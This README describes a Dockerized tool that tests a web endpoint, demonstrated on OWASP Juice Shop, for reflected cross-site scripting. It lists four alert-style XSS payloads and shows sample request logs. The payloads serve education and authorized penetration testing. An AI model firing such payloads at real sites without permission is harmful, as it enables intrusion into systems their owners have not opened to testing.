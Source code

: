 
# Reflected XSS Testing Tool

This standalone tool is designed to test for **Reflected Cross-Site Scripting (XSS)** vulnerabilities on web applications. It sends crafted payloads to a specified endpoint and checks for potential vulnerabilities.

---

## Features

- **Automated Testing**: Iterates through a list of XSS payloads.
- **HTTP Response Logging**: Displays the status code for each request.
- **Dockerized Environment**: Portable and consistent testing setup.

---

## Usage

### Prerequisites

1. Ensure the target application (e.g., [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)) is running and accessible.
2. Install [Docker](https://www.docker.com/).

---

### Step 1: Clone or Copy the Repository

Download the tool to your local environment:
```bash
git clone https://github.com/YamatoGr93/reflected-xxs.git
cd reflected-xss
```

---

### Step 2: Build the Docker Image

Build the tool's Docker image:
```bash
docker build -t reflected-xss .
```

---

### Step 3: Run the Tool

Run the tool against a target endpoint. Replace `<endpoint>` with the vulnerable path on your target application (e.g., `/search?q=`):
```bash
docker run --rm --network host reflected-xss "<endpoint>"
```

Example:
```bash
docker run --rm --network host reflected-xss "/search?q="
```

---

### Expected Output

For each payload in `payloads.txt`, the tool will generate URLs and log HTTP responses. Example output:
```plaintext
Testing Reflected XSS on endpoint: http://xxx.xx.x.x:3000/search?q=

Tested: http://xxx.xx.x.x:3000/search?q=<script>alert('XSS')</script> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><script>alert('XSS')</script> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><img%20src=x%20onerror=alert('XSS')> | Status: 200
Tested: http://xxx.xx.x.x:3000/search?q="><svg%20onload=alert('XSS')> | Status: 200
```

---

## Payloads

The tool uses the following XSS payloads (stored in `payloads.txt`):

- `<script>alert('XSS')</script>`
- `"><script>alert('XSS')</script>`
- `"><img src=x onerror=alert('XSS')>`
- `"><svg onload=alert('XSS')>`

You can add or modify payloads in the `payloads.txt` file.

---

## Troubleshooting

### Common Issues

1. **Connection Refused**: Ensure the target application is running and accessible.
    - For local testing, verify the Juice Shop instance is running at `http://localhost:3000`.
    - Use `http://xxx.xx.x.x:3000` if running from within Docker.
2. **Host Resolution Error**: Use the `--network host` option when running the Docker container.

---

## Disclaimer

This tool is for **educational and authorized penetration testing purposes only**. Use it responsibly and only on systems you have permission to test.

---

## Contribution

Feel free to fork this repository and submit pull requests to enhance the tool. Suggestions and improvements are welcome!

---

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.
